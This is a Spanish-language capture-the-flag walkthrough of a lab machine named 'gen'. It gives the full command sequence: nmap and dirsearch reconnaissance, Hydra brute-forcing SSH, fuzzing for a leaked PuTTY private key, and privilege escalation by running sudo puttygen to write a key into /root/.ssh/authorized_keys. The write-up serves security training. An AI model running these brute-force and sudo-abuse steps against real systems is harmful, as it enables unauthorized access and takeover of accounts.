

## Reconocimiento
Lanzamos un nmap con scripts y versiones de programas:

```
> nmap -p- -sVC --min-rate 5000 -Pn -n 192.168.0.45 -oN nmap-192.168.0.45.txt
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-16 18:38 CET
Nmap scan report for 192.168.0.45
Host is up (0.00082s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 a9:a8:52:f3:cd:ec:0d:5b:5f:f3:af:5b:3c:db:76:b6 (ECDSA)
|_  256 73:f5:8e:44:0c:b9:0a:e0:e7:31:0c:04:ac:7e:ff:fd (ED25519)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.57 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Accedemos al sitio web, vemos un texto que podría estar en un tipo de cifrado esotérico.


Mientras buscamos información del cifrado, dejamos en 2º plano un **dirsearch** con las tres extensiones más típica en CTF y enumeramos un fichero llamado *note.txt*:
```bash
> dirsearch -u http://192.168.0.45/ -x 404 -e "php,html,txt" -f -w /usr/share/seclists/Discovery/Web-Content/big.txt

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, html, txt | HTTP method: GET | Threads: 25 | Wordlist size: 102246

Output File: /home/kali/Documents/gen/reports/http_192.168.0.45/__24-02-16_18-46-43.txt

Target: http://192.168.0.45/

[18:46:43] Starting: 
[18:48:21] 403 -  277B  - /icons/                                           
[18:49:09] 200 -  182B  - /note.txt                                         
[18:50:03] 403 -  277B  - /server-status                                    
[18:50:03] 403 -  277B  - /server-status/
                 
Task Completed
```

En la nota para *Mark*, parece que nos dan un par de pistas sobre un servicio en un puerto 9999 interno y una clave privada de *Peter*.

#### Contenido de note.txt:


## Explotación
Obviamente, no llegamos a ninguno de los servicios, pero al menos tenemos un par de usuarios para probar con fuerza bruta sobre el servicio SSH y el diccionario *rockyou.txt*.

Después de varios minutos, encontramos credenciales válidas para *Mark*:

```
> hydra -L files/users.txt -P /usr/share/wordlists/rockyou.txt 192.168.0.45 ssh -t 4
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-02-16 18:58:25
[DATA] max 4 tasks per 1 server, overall 4 tasks, 28688798 login tries (l:2/p:14344399), ~7172200 tries per task
[DATA] attacking ssh://192.168.0.45:22/
[STATUS] 36.00 tries/min, 36 tries in 00:01h, 28688762 to do in 13281:51h, 4 active
[STATUS] 28.00 tries/min, 84 tries in 00:03h, 28688714 to do in 17076:37h, 4 active
[STATUS] 26.29 tries/min, 184 tries in 00:07h, 28688614 to do in 18190:15h, 4 active
[STATUS] 25.60 tries/min, 384 tries in 00:15h, 28688414 to do in 18677:22h, 4 active
[22][ssh] host: 192.168.0.45   login: mark   password: *******
```

Nos conectamos por SSH con las credenciales de Mark, pero estamos bajo una shell restringida, no nos permite ejecutar ningún comando:


Probamos a intentar escapar de la restricción con diferentes tipos de pruebas desde SSH, pero sin éxito. Probamos a hacer port forwarding al SSH, pero no nos permite conectar, pero vemos que devuelve unos errores:


Así que recordamos la pista de la nota que nos dejaron, el puerto 9999!!!


Preguntamos a chatGPT sobre extentiones para claves privadas en el uso de SSH:


Lanzamos **Wfuzz** con las extensiones y la palabra "*id_rsa*", encontramos una combinación que nos devuelve un código 200:
```
> wfuzz -c -z list,pem-ppk-key-p12-pfx-cer http://127.0.0.1:9999/id_rsa.FUZZ
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://127.0.0.1:9999/id_rsa.FUZZ
Total requests: 6

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                   
=====================================================================

000000001:   404        7 L      11 W       153 Ch      "pem"                                                                                                                     
000000003:   404        7 L      11 W       153 Ch      "key"                                                                                                                     
000000006:   404        7 L      11 W       153 Ch      "cer"                                                                                                                     
000000002:   200        36 L     42 W       2061 Ch     "ppk"                                                                                                                     
000000004:   404        7 L      11 W       153 Ch      "p12"                                                                                                                     
000000005:   404        7 L      11 W       153 Ch      "pfx"                                                                                                                     

Total time: 0
Processed Requests: 6
Filtered Requests: 0
Requests/sec.: 0

```

La descargamos y vemos que tiene un formato raro, ya conocía este formato, así que me fue sencillo transformarla en una común y utilizarla sobre el servicio SSH:

#### id_rsa.ppk
```
> cat id_rsa.ppk
PuTTY-User-Key-File-3: ssh-rsa
Encryption: none
Comment: peter@gen
Public-Lines: 9
AAAAB3NzaC1yc2EAAAADAQABAAABgQCXderHTJk9bVra4jc/M2n19+YfuaXgkRot
LhHcfttXfRTt1qasgiRSmIV28gCjN0J5eOJkln6Y1880Mq5oQippl5********************************************
********************************************
********************************************
********************************************
********************************************
********************************************
********************************************
********************************************
********************************************
********************************************
********************************************
********************************************
********************************************
********************************************
UeIUEi4pV+zdpTSMCnz+lbe1/gx2bcivNW58pi8HyorxV
VVoA5VH0+dlH6oCqzf8AAADBAIQM2zEECWKCjr9HBGehy6/HbLyjRhRsHBpi1dpD
FxdVZh9vtL6qs/b54xohXtPYB5cku/AiTtEfHHVSbIWaZXTu9MDtemOHfMiBv0T7
ihwFrG8QG1m0uttH4W05hRRKWBMU71NNwhSV/wM8AO2nyL6GHhaebXB4I56yTq3q
ppWMMSnZsSZYD+xl3reBk9xS1fDieZ6AlFyISymCaVoGdzmIMrtjh9SDZfQA6O4N
lioGlE0sewIS0VjBaBRe6dqEGA==
Private-MAC: ddf613a5fe1b8e368671e046193ec282600331b31e39f575a344c3bb23248d6b
```

En mi caso, utilizando kali linux, hice estos pasos:

```bash
sudo apt-get update
sudo apt-get install putty-tools
puttygen id_rsa.ppk -O private-openssh -o id_rsa
```

Después, solo tenemos que utilizar la clave privada como siempre, y ganaremos acceso a la máquina como "*Peter*":
```
> ssh peter@192.168.0.45 -i id_rsa
peter@gen:~$ ls -lna
total 24
drwx------ 3 1001 1001 4096 feb 13 18:32 .
drwxr-xr-x 4    0    0 4096 feb 13 15:55 ..
lrwxrwxrwx 1    0    0    9 feb 13 18:32 .bash_history -> /dev/null
-rw-r--r-- 1 1001 1001  220 abr 23  2023 .bash_logout
-rw-r--r-- 1 1001 1001 3526 abr 23  2023 .bashrc
-rw-r--r-- 1 1001 1001  807 abr 23  2023 .profile
drwx------ 2 1001 1001 4096 feb 13 18:01 .ssh
peter@gen:~$ id
uid=1001(peter) gid=1001(peter) grupos=1001(peter)
```

Una vez dentro, cambiamos de usuario a "*Mark*" y leemos la flag de *user.txt*:
```
peter@gen:~$ ls
peter@gen:~$ su mark
Contraseña: 
mark@gen:/home/peter$ cd ..
mark@gen:/home$ cd mark/
mark@gen:~$ ls -lna
total 32
drwx------ 3 1000 1000 4096 feb 13 18:29 .
drwxr-xr-x 4    0    0 4096 feb 13 15:55 ..
-rwx------ 1 1000 1000  782 feb 13 17:37 .banner
lrwxrwxrwx 1    0    0    9 nov 15 10:43 .bash_history -> /dev/null
-rw-r--r-- 1 1000 1000  220 nov 15 10:23 .bash_logout
-rw-r--r-- 1 1000 1000 3526 nov 15 10:23 .bashrc
-rw-r--r-- 1 1000 1000  807 nov 15 10:23 .profile
drwx------ 2 1000 1000 4096 feb 13 18:12 .putty
-r-------- 1 1000 1000   33 feb 13 18:25 user.txt
mark@gen:~$ cat user.txt 
********************************
mark@gen:~$ 
```

## Escalada de privilegios
Nos llama la atención la carpeta "*.putty*", dentro hay un fichero llamado "**randomseed**", este fichero no es legible, en él se almacenan datos de las sesiones realizadas con PuTTY.

Además, vemos que también podemos utilizar con SUDO el binario "**puttygen**", por lo que nos hace sospechar que todo podría guardar relación.

```
mark@gen:~$ cd .putty/
mark@gen:~/.putty$ ls -lna
total 12
drwx------ 2 1000 1000 4096 feb 13 18:12 .
drwx------ 3 1000 1000 4096 feb 13 18:29 ..
-rw------- 1 1000 1000  456 feb 13 18:12 randomseed
mark@gen:~/.putty$ cat randomseed 
��@Xꠔ�.z�%SlCr�~��`�|��!�N�Z{��M�fja▒�'s��n�<��մ�����2�<��i���j�Y�
��c����E�7�S`�y/�6���-Yҝ�V>����+�
                                  ����ۻ �o�1��
                                              L�
                                                �ʚ����)�6�Ş�8�" D<�J��!��I
                                                                          K��rKn�RÊ�&�@u�AtR! ����C��TX�"�u��$jG~DɄ9��kĞ���st���l;�z��(Sj��B��      m���|aC�(▒�~a�U
��eŰ�/wS}���2e:aY�Ս�▒,����t�;9d�Ֆ��Ƙx7Ty��3��P<#5�%G:�o(��ߌ�u��1�ϰX����k�#˽t�P��t:���7����l6i�?ijc.F��=�md�bai����}y�i�$�z�����ܙ*��0?��= U�x▒4��������j�mark@gen:~/.putty$ strings randomseed 
bash: strings: orden no encontrada
mark@gen:~/.putty$ sudo -l
Matching Defaults entries for mark on gen:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User mark may run the following commands on gen:
    (root) NOPASSWD: /usr/bin/puttygen
```

Tras varías pruebas y mucha lectura, no logramos hacer legible el fichero "randomseed", así que, teniendo acceso a puttygen, repetimos la jugada anterior, esta vez crearemos una llave .ppk, la pasaremos a formato OpenSSH y compartiremos como SUDO nuestra clave pública sobre el fichero /root/.ssh/authorized_keys.

Le preguntamos a chatGPT cómo podemos hacerlo:


Seguimos los siguientes pasos, nos conectamos por **SSH** con la clave generada y logramos leer el contenido del fichero *root.txt*:

```
mark@gen:~$ puttygen -t rsa -b 2048 -o id_rsa-root.ppk
+++++++++++++++++++
+++++++++++++++++++++++++++++++++++++++++++
Enter passphrase to save key: 
Re-enter passphrase to verify: 
mark@gen:~$ puttygen id_rsa-root.ppk -O private-openssh -o id_rsa
mark@gen:~$ sudo -u root puttygen id_rsa-root.ppk -O public-openssh -o /root/.ssh/authorized_keys
mark@gen:~$ ssh root@localhost -i id_rsa
root@gen:~# id
uid=0(root) gid=0(root) grupos=0(root)
*************************
root@gen:~# 

```
¡Hasta la próxima! ¡Que la “suerte” os acompañe!